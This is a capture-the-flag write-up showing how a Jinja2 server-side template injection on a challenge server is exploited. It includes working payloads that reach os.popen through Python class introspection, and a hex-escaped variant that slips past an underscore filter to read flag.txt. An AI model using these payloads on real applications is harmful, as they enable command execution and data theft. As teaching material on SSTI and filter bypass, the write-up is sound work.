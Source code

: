 # wafer

```
author: Lucian Ioan Nitescu
score: 50
solved: 67/94
difficulty: medium
tags: mics
```

## Description

Of course I included this protocol in my testing methodology and no vulnerabilities were found.

Flag format: CTF{sha256}

## Got the flag

When we connect to server, it response

```
nc 34.159.3.158 32077
GET /
Traceback (most recent call last):
  File "/home/ctf/server.py", line 8, in <module>
    print(Template("{{"+inputval+"}}").render())
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 1195, in __new__
    return env.from_string(source, template_class=cls)
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 1092, in from_string
    return cls.from_code(self, self.compile(source), gs, None)
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 757, in compile
    self.handle_exception(source=source_hint)
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 925, in handle_exception
    raise rewrite_traceback_stack(source=source)
  File "<unknown>", line 1, in template
jinja2.exceptions.TemplateSyntaxError: unexpected 'end of print statement'
```

So we think about SSTI in Jinja template and try injecting payload: 

```
nc 34.159.3.158 32077
''.__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()
Traceback (most recent call last):
  File "/home/ctf/server.py", line 8, in <module>
    print(Template("{{"+inputval+"}}").render())
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 1291, in render
    self.environment.handle_exception()
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 925, in handle_exception
    raise rewrite_traceback_stack(source=source)
  File "<template>", line 1, in top-level template code
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 474, in getattr
    return getattr(obj, attribute)
jinja2.exceptions.UndefinedError: 'str object' has no attribute 'class'
```
Based on result, we must bypass filter "_". 
After read this article "https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection", we built the payload and try again.

```
nc 34.159.3.158 32077
()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(94)|attr('get\x5fdata')(0,'flag.txt')
b'CTF{3497acdc5cdb795851f334a6c8f401a1e2504b4d05283b6b599e7b6dc42cc200}\n'
```

## Conclusion

This challenge introduce how to bypass filter when exploit SSTI.


